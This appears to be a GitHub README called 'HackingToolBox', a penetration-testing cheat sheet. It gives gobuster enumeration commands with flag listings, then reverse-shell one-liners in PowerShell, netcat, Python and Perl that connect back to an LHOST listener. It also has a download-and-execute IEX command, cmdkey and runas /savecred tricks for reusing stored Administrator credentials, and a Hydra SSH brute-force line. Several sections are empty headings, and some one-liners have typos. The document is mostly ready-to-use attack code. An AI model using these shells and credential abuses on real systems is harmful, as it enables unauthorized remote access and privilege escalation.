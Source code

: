 # HackingToolBox
![image](https://user-images.githubusercontent.com/62963762/78167617-0dbdc380-744f-11ea-926d-915dc78722a1.png)  
**RHOST** : Ip address of the target machine  
**RPORT** : Listening port of the target machine  
**LHOST** : Ip address of the auditor computer  
**LPORT** : Listening port of the auditor computer  


## Énumération
### Windows 
### Linux 
sudo -l
kernel
### Nmap
### FTP (File Transfer Protocol)
### SMB
### Web
**gobuster :** tool to bruteforce directory and file

  
`dir` mode :
  
```bash
gobuster dir -u http://RHOST -t 50 -w wordlist.txt -x .php,.html,.htm
```

```bash
Flags:
  -f, --addslash                      Append / to each request
  -c, --cookies string                Cookies to use for the requests
  -e, --expanded                      Expanded mode, print full URLs
  -x, --extensions string             File extension(s) to search for
  -r, --followredirect                Follow redirects
  -H, --headers stringArray           Specify HTTP headers, -H 'Header1: val1' -H 'Header2: val2'
  -h, --help                          help for dir
  -l, --includelength                 Include the length of the body in the output
  -k, --insecuressl                   Skip SSL certificate verification
  -n, --nostatus                      Don't print status codes
  -P, --password string               Password for Basic Auth
  -p, --proxy string                  Proxy to use for requests [http(s)://host:port]
  -s, --statuscodes string            Positive status codes (will be overwritten with statuscodesblacklist if set) (default "200,204,301,302,307,401,403")
  -b, --statuscodesblacklist string   Negative status codes (will override statuscodes if set)
      --timeout duration              HTTP Timeout (default 10s)
  -u, --url string                    The target URL
  -a, --useragent string              Set the User-Agent string (default "gobuster/3.0.1")
  -U, --username string               Username for Basic Auth
      --wildcard                      Force continued operation when wildcard found

Global Flags:
  -z, --noprogress        Don't display progress
  -o, --output string     Output file to write results to (defaults to stdout)
  -q, --quiet             Don't print the banner and other noise
  -t, --threads int       Number of concurrent threads (default 10)
      --delay duration    Time each thread waits between requests (e.g. 1500ms)
  -v, --verbose           Verbose output (errors)
  -w, --wordlist string   Path to the wordlist
```

`dns` mode :
```bash
gobuster dns -d http://RHOST -t 50 -w wordlist.txt
```
```bash
Flags:
  -d, --domain string      The target domain
  -h, --help               help for dns
  -r, --resolver string    Use custom DNS server (format server.com or server.com:port)
  -c, --showcname          Show CNAME records (cannot be used with '-i' option)
  -i, --showips            Show IP addresses
      --timeout duration   DNS resolver timeout (default 1s)
      --wildcard           Force continued operation when wildcard found

Global Flags:
  -z, --noprogress        Don't display progress
  -o, --output string     Output file to write results to (defaults to stdout)
  -q, --quiet             Don't print the banner and other noise
  -t, --threads int       Number of concurrent threads (default 10)
      --delay duration    Time each thread waits between requests (e.g. 1500ms)
  -v, --verbose           Verbose output (errors)
  -w, --wordlist string   Path to the wordlist 
```

## One-liner reverse shell
command to execute on the listener side to connect to the remote machine :
```bash
nc -lvp LPORT
```

### powershell
In http://LHOST/shell.ps1 :  
```shell
$client = New-Object System.Net.Sockets.TCPClient('LHOST',LPORT);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2  = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
```
In target machine :  
```START /B "" powershell -c IEX (New-ObjectNet.Webclient).downloadstring('http://LHOST/shell.ps1') ```

A useful command to run when beginning enumeration, which displays stored user names and passwords or credentials :  
```cmdkey /list```
Exploitation to have reverse shell :  
``` runas /user:[user]\Administrator /savecred "powershell -c IEX (New-ObjectNet.Webclient).downloadstring('http://LHOST/shell.ps1')"```  
Exploitation to run command :  
```runas /savecred /user:[user]\Administrator "cmd.exe /C [CMD]"```

### netcat
Linux : 
```bash
nc LHOST LPORT -e /bin/bash
```
Windows :
```bat
nc.exe LHOST LPORT -e cmd.exe
```
### python
Linux : 
```python
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)s.connect(("LHOST",LPORT>));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```
Windows : 
```bat
C:\Python26\python.exe -c "import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("LHOST",LPORT));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(['C:\\WINDOWS\\system32\\cmd.exe','-i']);"
```
### perl
```perl
perl -e 'use Socket;$i="LHOST";$p=LPORT;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp")) if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```
### bash
### php
### ruby
### telnet
### socat
### java

## Exploitation
### msfvenom
### metasploit
### searchsploit
### evil-winrm
### mimikatz


## Bruteforce
### John the ripper
### Hydra
bruteforce ssh login :  
`hydra -L user.txt -P /usr/share/wordlists/rockyou.txt RHOST -t 5 ssh -I`
